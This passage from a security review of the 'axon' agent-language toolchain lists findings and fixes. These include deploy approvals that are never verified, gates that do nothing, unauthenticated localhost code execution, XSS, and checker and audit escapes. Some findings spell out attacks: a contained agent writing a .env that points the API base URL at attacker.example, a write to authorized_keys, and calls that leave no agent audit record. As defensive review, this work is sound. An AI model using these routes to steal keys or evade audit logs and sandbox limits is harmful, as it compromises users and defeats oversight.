cmd_ast_approve (crates/axon-core/src/main.rs:4996-5012) computes an FNV-1a hash of the source and records it. cmd_deploy (main.rs:5355-5356) then does only `approved_path.exists()` and reports that boolean as `"approved":true` in the axon-deploy/1 JSON the web UI renders. Nothing in the workspace reads the `hash` field (grep for "approved" over main.rs returns only these sites). So: approve foo.ax, then edit foo.ax to do anything you like, then deploy — the deploy still reports approved:true and runs the edited program. axon-intent solved exactly this problem correctly with verify_token (crates/axon-intent/src/approval.rs:238); the axon CLI flow, which is the one the shipped web UI drives, did not. FNV-1a is also non-cryptographic and trivially collidable, so even a fixed comparison would not be tamper-EVIDENT against an adversary.

**Recommendation:** Have cmd_deploy read `<file>.approved`, recompute the digest of the current source, and refuse (exit 8) on mismatch or absence at Risk >= Medium. Switch the digest to SHA-256 and reuse axon_intent::approval::program_digest so the two approval stacks share one encoding.


#### [HIGH] `axon intent compile --json` never writes the .ax file it reports in `path`, breaking the web approval flow
*crates/axon-core/src/main.rs:4798* · kind: bug · reporter confidence: high

cmd_intent_compile (crates/axon-core/src/main.rs:4798-4814) prints the axon-intent-compile/1 object and `return`s BEFORE the `std::fs::write(&out_path, &ax_src)` at line 4816. Verified: `axon intent compile --json hello-goal.md` printed {"path":"hello-goal.ax","ax_bytes":3415,...} and exited 0, and hello-goal.ax does not exist. The web UI always uses --json (crates/axon-web/src/api.rs:12) and then does `const axText = j.ax_content || j.stdout || JSON.stringify(j, null, 2)` (crates/axon-web/src/html.rs:265-268) — neither `ax_content` nor `stdout` is in the schema, so the UI silently adopts the pretty-printed JSON object as the program source and feeds that to every subsequent pane.

**Recommendation:** Write the file before the JSON early-return (or emit the source inline as an `ax_content` field, which is what the UI already expects). Add an integration test asserting the file exists after a --json compile.


#### [HIGH] Web UI gates are decorative: a failed AST review is reported as reviewed, a caught redteam still unlocks deploy, and a blocked deploy renders as deployed
*crates/axon-web/src/html.rs:363* · kind: bug · reporter confidence: high

Three independent state-machine defects in crates/axon-web/src/html.rs, all because the panes test for a `j.error` key that the axon CLI JSON schemas never emit: (1) reviewAst checks only `if (j.error)`, so an axon-ast-review/1 payload carrying a non-empty `errors` array (CLI exit 2) sets `done.reviewed = true` and prints "reviewed" (html.rs:282-284). (2) runRedteam sets `done.redteamed = true` unconditionally at html.rs:349, outside the caught/passed branches — so the documented "done.redteamed gates deploy" invariant does not hold; the Acid-Test-4 catch unlocks the deploy button it is supposed to block. (3) runDeploy computes `const deployed = j.deployed === true || (j.ok !== false && !j.error)` (html.rs:363); the axon-deploy/1 schema has neither `deployed` nor `ok`, so a `{"status":"blocked_gate","gate":"redteam_check"}` response (CLI exit 1) renders as a green "✓ deployed". Combined with the compile bug above, the UI can walk an operator from a JSON blob through "reviewed", "approved", "redteam passed", to "deployed" without a single real gate having succeeded.

**Recommendation:** Gate on the actual schema fields: `errors.length === 0` for review, `caught === false` for redteam (and move `done.redteamed = true` into the pass branch), `status === 'deployed'` for deploy. Better: have api.rs normalize every CLI response into a single {ok, status, message} envelope so the JS never guesses at per-command shapes.


#### [HIGH] The web "approve" step has no effect on the deploy it gates — each request writes a fresh throwaway temp file
*crates/axon-web/src/api.rs:375* · kind: bug · reporter confidence: high

write_temp (crates/axon-web/src/api.rs:375-388) mints a NEW /tmp path per request. ast_approve therefore writes `<tmp-A>.approved` (api.rs:29), while deploy later stages the same source at `<tmp-B>.ax` and cmd_deploy looks for `<tmp-B>.approved`, which never exists. So every deploy through the UI reports `"approved":false` no matter how many times the operator clicked Approve, and the approval artifact is orphaned in /tmp. The pane's "✓ approved — AST signed" message is untethered from anything the deploy path observes.

**Recommendation:** Give a UI session one stable working path (a per-session temp directory keyed by a session id returned from /api/intent/compile) and reuse it across review/approve/redteam/deploy, so the .approved record and the deployed file are the same artifact. Clean the directory up on session end.


#### [HIGH] axon-web executes arbitrary attacker-supplied programs with no authentication and Access-Control-Allow-Origin: *
*crates/axon-web/src/server.rs:70* · kind: architecture · reporter confidence: high

Every POST endpoint takes program text from the request body and shells it into the interpreter: /api/goal/improve runs `axon run` (crates/axon-web/src/api.rs:52), /api/redteam and /api/deploy run the full program (cmd_redteam calls run_program at main.rs:5657; cmd_deploy at main.rs:5473). There is no auth, no token, no Origin check, and server.rs:70 attaches `Access-Control-Allow-Origin: *` to every response. The bind is 127.0.0.1 (main.rs:9), but that is not a boundary against a browser: any page the operator visits can issue a CORS-simple POST (Content-Type: text/plain — parse_content at api.rs:399 falls back to the raw body, so it need not be application/json) to http://127.0.0.1:8080/api/goal/improve and obtain arbitrary code execution as the operator, and with ACAO:* it can read the response too. Nothing in the deployed program is sandboxed on this path (no grant, no ceiling — that machinery only exists in axon-os).

**Recommendation:** Require a per-process bearer token printed at startup and checked on every /api route; reject requests whose Origin header is present and not the server's own; drop the wildcard CORS header (or scope it to the token-authenticated origin). Consider routing /api/goal/improve and /api/deploy through axon-os's sandboxed run path rather than raw `axon run`.


#### [MEDIUM] Stored XSS in the approval console: program output and audit-ledger fields land in innerHTML
*crates/axon-web/src/html.rs:241* · kind: bug · reporter confidence: high

crates/axon-web/src/html.rs:241 `fail()` builds `'<span class="err">✗ ' + msg + '</span>'` with innerHTML, and runRedteam passes `j.message` into it (html.rs:343). That message is assembled by run_json_merged from the program's own stdout prose lines containing FAILED/CAUGHT/BLOCKED/passed (crates/axon-web/src/api.rs:158-166), so a submitted program that does `println(" FAILED")` injects script into the operator's console. Same sink at html.rs:453, where ledger rows are built with `tr.innerHTML` from `e.principal`/`e.operation` — the principal string is set by the running program via principal_activate, so a job can persist script into the R28 ledger view. Given the console also exposes /api/safety/kill and the deploy button, injected script runs with full console authority.

**Recommendation:** Never build markup by concatenation here: give the status spans a fixed icon element and set the message with textContent; build ledger cells with createElement + textContent. If styled markup is genuinely needed, escape through a single html() helper.


#### [MEDIUM] The outputs-mismatch scope-expansion guard is bypassed by a non-literal write_file target
*crates/axon-intent/src/synth.rs:112* · kind: bug · reporter confidence: high

resolved_write_targets (crates/axon-intent/src/synth.rs:112-129) takes the FIRST string literal appearing after each `write_file(`, not the first argument. For `write_file(computed_path, "")` the first literal is the empty content string, which is dropped by the `!path.is_empty()` filter, so resolved_outputs is empty. confidence::outputs_subset (crates/axon-intent/src/confidence.rs:85-87) treats an empty resolved set as trivially a subset, so the "outputs-mismatch" hard refusal never fires; the draft scores 40+20+0+20 = 80 and SHIPS. Concretely a draft `fn main() -> i64 { let p = "/home/u/.ssh/authorized_keys" write_file(p, "") ... }` passes the guard whose stated job is to catch a program writing files the intent did not ask for — and, per the first finding, nothing downstream constrains the path either. The symmetric case `write_file(p, "non-empty")` mis-reports the CONTENT string as an output path, which fails closed but produces a nonsense uncertainty story for the human.

**Recommendation:** Extract write targets from the AST (first argument expression), not by scanning for quotes; when the first argument is not a literal, record an uncertainty note AND treat it as an unresolvable output that fails the subset check, rather than as no output at all.


#### [MEDIUM] axon-os maps a job that never ran to Verdict::Completed, because verdicts are inferred by substring-matching interpreter stderr
*crates/axon-os/src/runtime.rs:410* · kind: bug · reporter confidence: high

run_sandboxed classifies the run by scanning stderr for prose fragments ("sandbox violation", "budget"+"exhaust", "refinement violated", "axon: panic") and otherwise falls through to `Verdict::Completed { value: exit code }` (crates/axon-os/src/runtime.rs:388-415). Compile failures do not match any fragment: I ran a program that trips E0002 and stderr was `axon: run-id ...` plus a `{"schema":"axon-diag/1",...}` line, exit 2 — which this code reports as Completed{value:2}. That case is reachable in normal operation: wrap_in_sandbox renames the entry by literal `"fn main()"`/`"fn main ()"` replacement (runtime.rs:265-267), so a program written as `fn main /*c*/ ()` is not renamed, the appended wrapper main collides, and the job fails to compile — yet the supervisor records a clean completion and the operator sees no denial. More generally, a verdict contract keyed to unversioned human prose will drift silently the next time a diagnostic is reworded.

**Recommendation:** Have the interpreter emit a machine-readable terminal-status line (or reuse the axon-diag/1 JSON already on stderr) and parse that; treat any unrecognized non-zero exit with diagnostics present as a Denied/Error verdict, never as Completed. Detect the rename failure explicitly (assert exactly one `fn main` remains after wrapping) instead of relying on string replace.


#### [MEDIUM] The R24 friction ladder is computed but has no caller, while the approve path silently accepts single approval for Critical grants
*crates/axon-intent/src/policy.rs:34* · kind: architecture · reporter confidence: high

policy::policy_for (crates/axon-intent/src/policy.rs:34) prescribes threshold 2 for High and 3 for Critical, but has zero non-test callers in the workspace (grep for policy_for/ApprovalPolicy returns only policy.rs), and it is not re-exported from lib.rs's stated public API (crates/axon-intent/src/lib.rs:29-42). Meanwhile cmd_approve hard-refuses `--approvers N>1` with exit 2 (crates/axon-intent/src/cli.rs:278-285) — so today it is impossible to satisfy the threshold the ladder prescribes, and a Critical-risk grant is single-approved with no warning that its own policy says otherwise. Also `rest[i+1].parse().unwrap_or(1)` at cli.rs:279 silently coerces a garbage `--approvers foo` to 1 instead of a usage error.

**Recommendation:** Until S3 lands, at minimum call policy_for in cmd_approve and print a visible stderr warning when the derived threshold exceeds the 1 approver actually collected (the same non-silent-gap discipline cmd_deploy applies to the quorum gate at main.rs:5427). Fix the --approvers parse to error on a non-numeric value, and re-export ApprovalPolicy/policy_for from lib.rs.


#### [MEDIUM] Fixed/predictable temp paths and never-cleaned temp files across the product surface
*crates/axon-intent/src/synth.rs:364* · kind: bug · reporter confidence: high

RealSynthesizer::typecheck writes to `axon-intent-check-{pid}.ax` with no randomness (crates/axon-intent/src/synth.rs:364), and synthesize to `axon-intent-synth-{pid}-{seed}.md` (synth.rs:301); axon-os stages `axon-os-wrap-{pid}-{stem}.ax` (crates/axon-os/src/runtime.rs:319). Since fs::write follows symlinks, a local user who pre-creates a symlink at a predictable path gets an arbitrary-file overwrite with content the attacker also influences (the candidate program). The fixed-per-pid name also collides if two typechecks ever run concurrently in one process. Separately, axon-web's write_temp (crates/axon-web/src/api.rs:375-388) names files from `subsec_nanos` alone and NEVER deletes them, so a long-running console accumulates a .ax file per request in /tmp and can collide on the nanosecond field.

**Recommendation:** Create a private 0700 temp DIRECTORY per operation (mkdtemp semantics) and place the file inside it; remove the directory on completion. In axon-web, tie the directory to the session (see the approval-orphaning finding) and delete on session end.


#### [LOW] Intent ceiling defaults are not the most restrictive, and a malformed bullet is silently dropped
*crates/axon-intent/src/intent.rs:199* · kind: bug · reporter confidence: high

parse_allowed defaults `max_label` to Label::Internal when the `max_label:` line is absent (crates/axon-intent/src/intent.rs:199) — for a module whose stated discipline is "no ceiling implies refuse; never default to allow", the confidentiality axis silently defaults one notch above the most restrictive Public. Relatedly, bullets() only accepts lines beginning `- ` or `* ` (intent.rs:137-146), so a line written `-fs_write: ./out/` or `  fs_write: ./out/` is dropped with no diagnostic; the reader believes they granted a cap and the parse succeeds with a different ceiling than the text they see. On the fs/net axes a dropped line fails closed, but the silent divergence between the reviewed text and the parsed ceiling is the same class of legibility failure the module exists to prevent.

**Recommendation:** Default max_label to Public, and make any non-empty, non-bullet, non-blank line inside `## Allowed`/`## Budget` a Refusal::Malformed rather than silently ignoring it.


#### [LOW] scan_effects is duplicated verbatim in two crates, guaranteeing drift on the security-critical path
*crates/axon-os/src/runtime.rs:218* · kind: architecture · reporter confidence: high

crates/axon-intent/src/synth.rs:83-107 and crates/axon-os/src/runtime.rs:218-242 are byte-for-byte the same over-approximation of a program's declared effects — the input to grant inference on one side and to the static gate on the other. lib.rs:10-11 explicitly promises "R22 reuses R21's Grant/DeclaredEffects/gate verbatim — it does not redefine capability/admission types", and this is the one capability-relevant function that was copied instead. Any fix to one (e.g. the `exec (` gap above) will silently leave the other exploitable.

**Recommendation:** Move the extractor into axon-os (next to DeclaredEffects) or, better, into axon-core beside builtin_effect_row, and have both crates call it. Add a drift test in the same spirit as builtins.rs's builtin_effect_row_agrees_with_impurity.


### Compiler front-end — 2 findings (0C/2H/0M/0L)


#### [HIGH] @[pure] and refinement-purity checks are launderable through a lambda argument
*crates/axon-core/src/checker.rs:2233* · kind: bug · reporter confidence: high

`collect_purity_violations` (checker.rs) is the sole enforcement path for both the `@[pure]` obligation (E1207, via `check_purity`) and the refinement-predicate purity rule (E1209, via `reject_impure_refinement`). Its recursion treats `Expr::Lambda { .. }` as a no-op leaf — it is listed in the terminal match arm at checker.rs:2233 alongside `Ident`/`Literal`, so the lambda BODY is never walked. Any impure builtin invoked inside a closure passed to `arr_fold`/`arr_map`/`arr_filter`/`arr_sort_by`/etc. is invisible to the checker. This is the exact 'transitive laundering' class the project already fixed for `for_each_child` (checker.rs:2696) and `each_subexpr` (checker.rs:5911), both of which DO walk `Lambda { body }` — this one function was missed. Confirmed by running the compiler: a `@[pure] fn f(xs:[i64]) -> i64 { arr_fold(xs, 0, |a,x| { println("boom side effect") a+x }) }` passes `axon check` (exit 0) and at runtime prints the side effect three times. The direct control (`random_i64` called outside a lambda in a `@[pure]` fn) is correctly rejected with E1207, proving the lambda is the escape. The refinement variant `type Weird = i64 where arr_any([1], |x| random_i64(0,2)>0)` likewise passes check (E1209 bypassed), reopening the 'refinement predicates must be pure' soundness hole through the same root cause.

**Recommendation:** Add an `Expr::Lambda { body, .. } => Self::collect_purity_violations(body, pure_fns, out)` arm to `collect_purity_violations` (remove `Lambda` from the leaf arm at checker.rs:2233), mirroring the treatment already used in `for_each_child` and `each_subexpr`. Add a regression test with an impure builtin inside a closure passed to `arr_map`/`arr_fold` for both the @[pure] (E1207) and refinement (E1209) paths.


#### [HIGH] host_await* builtins are classified pure and effect-free (missing from is_impure_builtin and builtin_effect_row)
*crates/axon-core/src/builtins.rs:2130* · kind: bug · reporter confidence: high

`host_await`, `host_await_opt`, `host_await_val`, and `host_await_val_opt` suspend the program and exchange data with the host (read host-supplied replies / stdin) — an I/O side effect and a source of non-determinism. Yet they appear in neither `is_impure_builtin` (builtins.rs:2130) nor `builtin_effect_row` (builtins.rs:2196), so both classify them as pure with the empty effect row `{}`. Consequences: (1) a `@[pure]` function may call `host_await` and pass `axon check` — confirmed: `@[pure] fn f() -> str { host_await("give me input") }` checks clean (exit 0), a soundness hole in the purity guarantee; (2) the effect-row subsumption checker (E1310) sees no effect, so an un-annotated/`| {}`-declared function can perform host I/O without any effect appearing in its declared row, defeating the effect-row containment story for interactive programs (REPLs, the approval agent) that are the stated purpose of the R15 resume runtime. The lockstep guard `builtin_effect_row_agrees_with_impurity` does not catch this because both tables are jointly wrong (both empty → 'agree'). Note `is_heap_allocating_builtin` DOES flag them (ret is `str`/`Option<str>`/`U`), so @[no_alloc] is unaffected; only the purity/effect axes are wrong.

**Recommendation:** Add the four `host_await*` names to `is_impure_builtin` and give them an I/O effect row (e.g. `["IO"]`, or a dedicated `Host` effect) in `builtin_effect_row`. Since the CLAUDE.md notes host_await is deliberately not net-denied inside @[contained], keep the capability policy but make the effect visible to the type-level effect/purity checkers. Extend the lockstep test to assert every builtin with a non-empty effect row is impure and vice-versa so a future addition can't leave both tables empty again.


### Native codegen — 11 findings (0C/3H/5M/3L)


#### [HIGH] Native agent-action audit (I-13) is lexical-only — escapable via one level of indirection
*crates/axon-core/src/codegen/asi.rs:36* · kind: bug · reporter confidence: high

Codegen arms the mandatory @[agent] audit via a compile-time flag set only while emitting the agent fn's own body (mod.rs:1187-1190, consumed in asi.rs:35-41 and the emit_call tail at expr.rs:9474). The interpreter deliberately uses the DYNAMIC nearest-enclosing-agent on the call stack (interp.rs:1916-1921: "the audit can't be escaped by indirection"), and axon-rt has no runtime agent context at all (crates/axon-rt/src/provenance.rs:353 is a stateless logger). EMPIRICALLY CONFIRMED: for `@[agent] fn do_it() { helper() }` where helper() calls write_file, `axon run` writes 1 agent_action record; the native binary performs the FS write with 0 records. The direct-call case logs correctly, proving the gap is exactly the transitive-laundering class previously fixed in the interp (per the project's own memory notes) but never ported to native.

**Recommendation:** Move audit emission into the runtime: emit __axon_agent_enter/__axon_agent_exit calls in the prologue/epilogue of @[agent] fns (thread-local agent stack in axon-rt), and have each capability-bearing __axon_* runtime fn (or a shared rt choke point) emit the agent_action record when the stack is non-empty. This matches interp semantics exactly and also fixes the ai_extract::<T> miss and the record-schema drift (separate findings).


#### [HIGH] Lambda i64-return ABI silently corrupts f64 and signed narrow-int closure results
*crates/axon-core/src/codegen/expr.rs:2433* · kind: bug · reporter confidence: high

emit_lambda transports every body value through an i64 return slot: f64 bodies are bitcast to i64 bits (expr.rs:2449-2453) and narrow ints are ZERO-extended (expr.rs:2433-2442), but only the arr_max_by/min_by helpers bitcast back (expr.rs:3607/3657); the direct closure-call site (expr.rs:7443-7476) returns the raw i64 and the honest E0910 gate refuses only str/slice/tuple bodies (expr.rs:2345-2350). EMPIRICALLY CONFIRMED, no diagnostic emitted: `let f = |x: f64| x * 2.0; f(3.0)` → interp prints 6, native prints 4618441417868443648 (the bit pattern of 6.0); `let f = |x: i32| min_i32(x, 0-5); f(0-3)` → interp -5, native 4294967291 (zext of 0xFFFFFFFB). This is precisely the silent wrong-value class the codebase's I-2 invariant forbids ("refuse, never miscompile").

**Recommendation:** Short term: widen the E0910 gate at expr.rs:2344 to also refuse f64 and sub-64-bit signed-int lambda bodies (or sext signed ints, which fixes the int case outright). Proper fix: bitcast/sext at the direct closure-call site based on the inferred lambda return type (infer_expr_sem_type of the body is already available), mirroring what the arr_max_by helper does.


#### [HIGH] Per-call `tier:` argument silently ignored by native codegen — wrong model routed without refusal
*crates/axon-core/src/codegen/mod.rs:944* · kind: bug · reporter confidence: high

The R3 sound-by-refusal scan (mod.rs:944-963) resolves the tier ONLY from fn attrs via tier_from_attrs; codegen then explicitly drops Call.tier (expr.rs:375-377, comment wrongly claims "native AI calls aren't in the codegen path" — they are: ai_complete is fully lowered at builtins.rs:3827-3993). The interpreter gives a per-call `tier:` arg top priority (interp.rs:1964-1976, R3b). EMPIRICALLY CONFIRMED: `ai_complete("say hi", tier: "cheap")` in a plain fn builds natively with no E0910 (binary produced), and the native ABI carries no model, so the call routes to sonnet (balanced) while `axon run` routes to haiku — the exact silent-misroute (plus wrong cost metering) the mod.rs:939 comment promises can never happen.

**Recommendation:** In the refusal scan (or a dedicated walker), refuse any Expr::Call with tier: Some(t) where t != "balanced" (arguably any Some(t), since an unknown tier is E1302 in interp and native can't replicate that either), with the same E0910 text as the attr path.


#### [MEDIUM] expr_calls walker misses WithHandler and Select — tier refusal and goal_run detection launderable
*crates/axon-core/src/codegen/mod.rs:157* · kind: bug · reporter confidence: high

mod.rs:90-158 expr_calls walks most Expr variants but WithHandler and Select fall to `_ => false` (mod.rs:157). Consequences: (a) an ai_complete wrapped in a `with handler { … } { ai_complete(...) }` inside an @[ai(policy(tier: cheap))] fn does NOT trigger the mod.rs:944 refusal — verified: no E0910 is emitted for that shape (today the build happens to die with a raw `LLVM ERROR: unable to allocate function return #3` process abort on the Result-typed handler body — itself an ungraceful failure mode — but the guard gap is real and any shape that survives IR-gen ships misrouted); (b) program_calls_goal_run (mod.rs:86,162-164) misses a goal_run inside those forms, so the BUG_HUNT #19 goal-name registry is never initialized and the native typo-guard parity silently lapses. Same structural-walker-gap class as the previously fixed E1203 import walk (with/spawn/select/comptime).

**Recommendation:** Add WithHandler { handler, body } (walk both the arm bodies and the body) and Select(arms) arms to expr_calls; add a drift-style test that pattern-matches every Expr variant so a future variant can't silently fall through. Separately, make the WithHandler-around-Result lowering fail with a diagnostic instead of an LLVM fatal abort.


#### [MEDIUM] Generic ai_extract::<T> calls bypass the agent audit even in the direct case
*crates/axon-core/src/codegen/expr.rs:9474* · kind: bug · reporter confidence: high

The emit_call audit hook fires only for Ident callees (expr.rs:9474-9476: `if let ast::Expr::Ident(name) = callee`), but the generic AI form lowers through a StructLit callee (expr.rs:7418-7434, `ai_extract::<i64>` etc.). capabilities.rs classifies `ai_extract::<...>` as Net and the interpreter audits it inside @[agent] fns (interp/builtins.rs:172-179 keys on the same capability_of_builtin, which handles the prefix). So a native agent binary can make a Net-capability AI extraction with no agent_action record even when the call is lexically inside the agent fn — a second, independent hole in the un-opt-out-able audit.

**Recommendation:** After resolving the StructLit callee to its helper name, route that resolved name through emit_agent_action_log (or fix at the runtime choke point per the transitive-audit finding, which covers this automatically).


#### [MEDIUM] Native agent_action records lack the F3 effect_row/principal fields — audit schema drift vs interp
*crates/axon-rt/src/provenance.rs:380* · kind: bug · reporter confidence: high

Interp records (interp/provenance.rs:138-146) carry "effect_row" and "principal" (Phase 9 F3); the native writer __axon_log_agent_action (crates/axon-rt/src/provenance.rs:379-384) emits only fn/action/caps_used/src. EMPIRICALLY CONFIRMED by diffing the two records for the same program: interp line has `"effect_row":"Other","principal":"root"`, native line has neither. `axon trace` consumers and any downstream audit tooling see two different schemas depending on which backend produced the run. (Side observation for the interp reviewers: effect_row came out "Other" for a write_file — cap_to_effect_row("fs:write") mapping looks wrong too.)

**Recommendation:** Extend __axon_log_agent_action's ABI with effect_row + principal (native has no principal_activate, so pass "root" until it does), or better, single-source the record format: one JSONL-formatting function shared by axon-rt and the interpreter so the schemas cannot drift again.


#### [MEDIUM] R1d drift cross-check validates arity only — param/ret TYPE drift ships silently
*crates/axon-core/src/codegen/builtin_externs.rs:675* · kind: improvement · reporter confidence: high

builtin_externs.rs drift_tests (lines 666-723) join BUILTIN_EXTERNS/STR_OUT_EXTERNS rows to BUILTINS by name and compare only params.len(). A row declaring L::I64 where the BUILTINS entry (and the axon-rt impl) says f64 — or an L::Str vs handle mismatch — passes the gate and produces an ABI mismatch that silently reads garbage at runtime (the exact class the registry exists to prevent; the project's own golden-IR memory note documents how a shape-only check hid a corruption bug for a month). The gate proves the tables can't drift in COUNT, not in SHAPE.

**Recommendation:** BUILTINS entries carry param/ret type strings; add a mapping from L/SemRet to those source-level types and assert per-slot equality in the drift tests. Cheap, closes the remaining drift channel.


#### [MEDIUM] Cross-cutting safety concerns are re-implemented per bespoke arm instead of at a choke point
*crates/axon-core/src/codegen/expr.rs:7340* · kind: architecture · reporter confidence: high

The interpreter funnels every builtin through one dispatch site where the agent audit, sandbox ceiling, and effect checks live together (interp/builtins.rs:165-207). Native codegen has no equivalent: emit_call is ~2,100 lines of name-matched early-return arms (expr.rs:7340-9480) plus 5,709 lines of hand-built wrappers (codegen/builtins.rs), and each cross-cutting concern must be manually replicated at the right arms — which is precisely how the three audit holes above arose (lexical-only flag, Ident-only guard, StructLit bypass). Every new bespoke lowering re-opens the question "did we remember the audit/effect/refusal here?" with no structural enforcement.

**Recommendation:** Introduce one funnel: resolve the callee to a canonical builtin name FIRST (Ident or StructLit-generic), run the shared pre-call policy (audit, future sandbox/effect hooks, refusal checks) there, and only then branch to bespoke lowering. Longer term, keep migrating wrappers into the ExternSig/StrOutSig registries so the bespoke surface shrinks.


#### [LOW] Closure-env fallback loads every capture as i64 regardless of its real type
*crates/axon-core/src/codegen/expr.rs:185* · kind: bug · reporter confidence: high

The Ident-resolution "safety net" for captures the resolver missed (expr.rs:171-187) GEPs into the env struct and loads with a hardcoded i64 type (expr.rs:184-185), while the primary path binds captures with their real LLVM types (expr.rs:2390-2398). If the fallback is ever hit for an f64 capture the bits are reinterpreted as an integer; for a str capture the load type doesn't even match the field. A defensive path that miscompiles is worse than one that refuses — it converts a resolver gap into a silent wrong value.

**Recommendation:** Use the capture's recorded LLVM type (thread capture_llvm_tys through current_lambda_env alongside the index map), or emit an E0910/E0701 diagnostic instead of an i64 load when the type is not i64.


#### [LOW] emit_call arg loop leaks Option/Result type context when an argument emits None
*crates/axon-core/src/codegen/expr.rs:9412* · kind: bug · reporter confidence: medium

Per-argument, emit_call saves current_option_inner/current_result_types (expr.rs:9323-9324), sets them from the declared param type (9325-9331), and restores at the bottom of the iteration (9467-9468) — but the `None => continue` at expr.rs:9410-9413 skips the restore, so a param's Option/Result context leaks into subsequent arguments and past the call. Reachable when an argument expression legitimately emits no value (unit-valued call) or when a nested arm errors-and-returns-None; in the first case the build does NOT abort, so a later bare None/Ok/Err in the same expression can be built against the wrong canonical layout.

**Recommendation:** Restore via a scope guard, or restructure the loop so save/restore brackets the whole iteration with no early `continue` between them (the DynTrait `continue`s at 9399/9407 are currently harmless but the same restructure makes that robustness explicit).


#### [LOW] str-out wrapper synthesis add_function is not idempotent against name collisions
*crates/axon-core/src/codegen/builtin_externs.rs:502* · kind: improvement · reporter confidence: medium

synthesize_str_out_wrapper unconditionally calls add_function(row.axon_name) (builtin_externs.rs:502) — unlike declare_one_extern, which does get_function-or-add (builtin_externs.rs:439-443). If the same source-level name is ever declared earlier (e.g. a future user-fn/builtin name collision, or a second synthesis pass), LLVM silently renames the new one (str_reverse.1) and self.functions points at whichever was inserted last, leaving an orphaned duplicate — the exact confusion the drift test at builtin_externs.rs:738 warns about for the cross-table case, but unguarded within this path itself.

**Recommendation:** Mirror declare_one_extern: if module.get_function(row.axon_name) already exists, either reuse it or panic with a clear registration-collision message rather than letting LLVM rename.


### Runtime crates — 8 findings (0C/2H/3M/3L)


#### [HIGH] Native ai_extract_* ignores AXON_AI_MOCK — interp/native divergence and live network calls under mock
*crates/axon-ai/src/lib.rs:566* · kind: bug · reporter confidence: high

`complete_structured_inner` (the shared path for `__axon_ai_extract_uncertain_i64/f64` at lines 775/825 and `__axon_ai_extract_{i64,f64,bool}` at 883/927/976) never checks `ai_mock_enabled()`. Only the plain-completion path (`ai_complete_inner_model_usage`, line 309) honors AXON_AI_MOCK. The interpreter, by contrast, short-circuits under mock: interp/builtins.rs:4364 returns `Ok(Uncertain(1, 0.9))` for `ai_extract_uncertain_i64` before any network dispatch. Concrete failing scenario: `AXON_AI_MOCK=1 ./native_binary` where the program calls `ai_extract_uncertain_i64(p)` — interp prints the deterministic stub result; the native binary attempts a live HTTPS POST (spending real tokens if a key is present, or returning `Err("ANTHROPIC_API_KEY ... is not set")` if not). This is exactly the I-2 interp↔codegen divergence class the project gates on, and it contradicts the recorded resolution of the 'codegen AI-mock gap' (which fixed only ai_complete). Codegen does not compensate — grep shows no AXON_AI_MOCK handling anywhere in crates/axon-core/src/codegen/.

**Recommendation:** Add `if ai_mock_enabled() { return Ok(mock args object) }` at the top of `complete_structured_inner` (or in `complete_typed_uncertain_inner`/`complete_typed_flat_inner`), returning the same deterministic values the interpreter uses (value=1/1.0/true, confidence=0.9), and add a parity-harness row for ai_extract under mock.


#### [HIGH] Runtime .env upward-walk + base-URL env override defeats the static host pin on ai_complete (capability-check bypass route)
*crates/axon-ai/src/lib.rs:80* · kind: bug · reporter confidence: high

Two composing weaknesses. (1) `load_dotenv_once`/`find_dotenv_upwards` (lines 65–91) reads a `.env` file from the CWD or ANY ancestor directory up to `/`, on the first AI call, and injects its KEY=VALUEs into the process env. This file read happens inside the runtime TCB with no capability check at all: inside an `@[contained]` boundary, `env_var()` is E1001-denied as an 'ungrantable ambient secret channel' and fs reads must match the allowlist — yet calling `ai_complete` transitively reads an arbitrary on-disk file the allowlist never granted and turns it into ambient config. (2) The static net check pins ai_complete's implicit host to the constant `api.anthropic.com` (capabilities.rs:90, `ai_builtin_host`), but the runtime endpoint is actually `AXON_AI_BASE_URL`/`ANTHROPIC_BASE_URL` (base_url(), lines 150–164) — including values sourced from that `.env`. Concrete scenario: an agent with `@[contained(fs:[write("./")], net:["api.anthropic.com"])]` writes `./.env` containing `AXON_AI_BASE_URL=https://attacker.example`; the next run's `ai_complete` passes the static host check yet POSTs the prompt WITH the user's real `x-api-key` (taken from the shell env, which .env cannot override but doesn't need to) to the attacker host. The host pin is checked against a constant the runtime does not enforce.

**Recommendation:** (a) Gate dotenv loading: only load `.env` from an explicitly configured path (AXON_DOTENV) or the invocation directory with an opt-in flag, never by walking to filesystem root; skip it entirely when the program was checked with @[contained]. (b) Enforce the host pin at runtime: when a contained program is running, validate the resolved base_url host against the granted net allowlist (or refuse base-URL overrides), so the static claim and the wire behavior agree.


#### [MEDIUM] dict_map_values / dict_filter / dict_each / dict_to_str skip the non-int-dict abort and silently pass pointer bits as values
*crates/axon-rt/src/lib.rs:911* · kind: bug · reporter confidence: high

The stated v1 policy (dict_abort_if_nonint, lines 249–263) is that native bulk readers must abort loudly (exit 101) on a str/float-valued dict because the raw-i64 ABI would otherwise yield a SILENT wrong value vs the interpreter. `__axon_dict_values` (line 708) and `__axon_dict_to_pairs` (line 842) enforce this — but `__axon_dict_map_values` (911), `__axon_dict_filter` (1005), `__axon_dict_each` (1049), and `__axon_dict_to_str` (953) do not. The first three pass `DictVal::Str(s) => s.as_ptr() as i64` / `Float(f) => f.to_bits() as i64` straight into the user closure, so a str-valued dict built via `dict_set` (tag 2 is fully supported at 341–356) produces closure arguments that are heap addresses masquerading as data — the exact I-9 'wrong answer masquerading as success' case the guard exists to prevent. `dict_to_str` additionally renders Float with Rust `{}` Display instead of the interpreter's canonical `%.6g` (`axon_fmt_g`), a textual divergence on the same input. Scenario: `d = dict_new(); dict_set(d, "k", "str-val"); dict_map_values(d, fn)` — interp maps the real value / errors coherently; native calls fn with a pointer-as-int and returns exit 0.

**Recommendation:** Call `dict_abort_if_nonint` at the top of dict_map_values, dict_filter, dict_each, and dict_to_str (or extend those paths to carry tagged values), and add fuzz-parity rows for non-int dicts hitting each bulk API.


#### [MEDIUM] Audit/replay backbone is interpreter-only: native binaries ignore AXON_AUDIT_LEDGER and AXON_AI_REPLAY entirely
*crates/axon-ai/src/lib.rs:249* · kind: architecture · reporter confidence: high

